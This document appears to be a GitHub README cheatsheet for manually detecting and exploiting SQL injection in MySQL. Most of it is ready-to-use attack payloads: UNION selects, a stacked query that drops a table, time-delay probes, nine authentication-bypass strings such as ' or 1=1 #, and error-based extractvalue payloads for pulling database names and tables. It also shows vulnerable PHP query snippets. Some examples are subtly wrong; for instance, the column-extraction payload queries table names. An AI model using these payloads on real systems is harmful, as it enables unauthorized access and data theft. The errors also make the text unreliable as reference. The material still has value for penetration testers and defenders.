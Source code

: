 # MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  \# <br>
2.  -- (After double dash put space) <br>
3.  /\*\*/  <br>

Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
# MySQL LIMIT Clause  <br>
1. The LIMIT clause is used to specify the number of records to return.  <br>

Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
# MySQL UNION Operator  <br>
1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
 
 Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
 
 Ex 2: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
# MYSQL Stack query <br>
1. MySQL does not support stack query with PHP, ASP.NET, Java <br>
Ex: SELECT * FROM products WHERE id = 1; DROP users-- /* stack query example */ <br>
  
# Substring  <br>
1. SUBSTRING('MySQL', 3, 2)  <br>

# String without quote(' or ") <br>
1. using CONCAT function <br>
Ex: SELECT CONCAT(CHAR(77),CHAR(89),CHAR(83),CHAR(81),CHAR(76)); /* return MYSQL string */  <br>

2. using hex value <br>
Ex: SELECT 0x4d7953514c;  /* return MYSQL string */  <br>

# Database version <br>
1. SELECT @@version <br>

# Current Database <br>
Ex: SELECT database(); <br>

# Current Database User <br>
Ex 1: SELECT user(); <br>
Ex 2:SELECT system_user(); <br>

# List DBA account <br>
Ex: SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; <br>

# Database contents <br>
1. Selecting all the tables along with DB <br>
Ex: SELECT * FROM information_schema.tables; <br>

2. Selecting all the columns in perticular table <br>
Ex: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'; <br>
# Order by <br>
1. The ORDER BY keyword is used to sort the result-set in ascending or descending order. But these keywords are used to identify no of columns present in table. <br>
Ex: SELECT * FROM Customers ORDER by 7; /* if columns are less than 7 in the table query gives SQL error. Check less than 7 values until error resolved.  */ <br>

# Time Delay <br>
Ex 1: SELECT sleep(10)  /* Sleep for 10 sec */ <br>

Ex 2: SELECT IF(CONDITION-HERE,sleep(10),'a'  /* Sleep for 10 sec if codition is True*/ <br>

# Detecting SQL Injection <br>
**Case 1: When source code is available.** <br>

Try to find out dynamic query where user inputs are concatenating to SQL query without/partial sanitizing user's input. Some time developer does mistake to concatenate user input into query while using parameterize SQL query. <br>
Ex 1: No parameterized query<br>
**$username** = $_POST["username"]; <br>
**$password** = $_POST["password"]; <br>
$sql="SELECT * FROM users WHERE username = **'$username'** AND password = **'$password'**"; <br>
$result = mysql_query($sql, $link); <br>
<br>

Ex 2: parameterized query <br>
**$firstname** = $_POST["firstname"]; <br>
$lastname = $_POST["lastname"]; <br>
$email = $_POST["email"]; <br>

$stmt = $conn->prepare("INSERT INTO MyGuests (firstname, lastname, email) <br>
VALUES (**$firstname**, :lastname, :email)"); /* Userinput **"firstname"** is directly concatenated into quey. So snippet is vulnerable to SQL Injection */  <br>
$stmt->bindParam(':lastname', $lastname); <br>
$stmt->bindParam(':email', $email); <br>
<br>

**Case 2: Black box Error based SQL Injection <br>**
1. single quote('), double quote("), and(&), semicolon(;), double dash(--) any character that break the SQL syntax. SQL server return Syntex error to end user. <br>
Ex : $sql="SELECT * FROM users WHERE username = ''' AND password = '$password'";  /* gives syntax error */ <br>
  
**Case 3. Blind SQL Injection (Conditional)** <br>
1. App return data based on True/False condition <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or 2>1# <br>

Ex 2: "SELECT * FROM books WHERE bookid = -2 or 2>1 LIMIT 1# /*Return 1st result only*/ <br>
<br>

**Case 4: Blind SQL Injection (Time delay)** <br>
1. App return data after delaying certain time <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or sleep(10)#; <br>

2. Condition time delay <br>
Ex 2. SELECT IF(1=1,sleep(10),'a'); <br>

# Authentication Bypass <br>
1. admin' #  /*when user is admin */ <br>
2. admin' -- /*space after double dash*/ <br>
3. admin' or 1=1 # <br>
4. admin' and 1=1 # <br>
5. ' or 2>1 #  /*when username is not known*/ <br>
6. " or 2<1 #   /*When user input is quoted under double dash*/ <br>
7. ' or 1=1 LIMIT 1 # <br>
8. ' | 1=1 # <br>
9. ' & 2=2 # <br>

# Data Exfiltration
**Case 1: Error based (Error based SQL Injection is used when UNION based SQL Injection is not possible) <br>**
Ex 1: Extract DB version <br>
test' AND extractvalue(rand(),concat(0x3a,(SELECT @@version))) #<br>

Ex 2: Extract DB<br>
test' AND extractvalue(rand(),concat(0x3a,(SELECT database()))) #<br>

Ex 3: Extract All tables<br>
test' AND extractvalue(rand(),concat(0x3a,(SELECT table_name from information_schema.tables limit o,1))) #  /*where o=offset, 1= one result, extract result one by one by increamenting offset value. For extracting first row put o=1 */<br>

Ex 4: Extract columns from a table<br>
test' AND extractvalue(rand(),concat(0x3a,(SELECT table_name from information_schema.tables where table_name='xyz' limit o,1))) #  /*where o=offset, 1= one result, extract result one by one by increamenting offset value. For extracting first row put o=1 */<br>
    
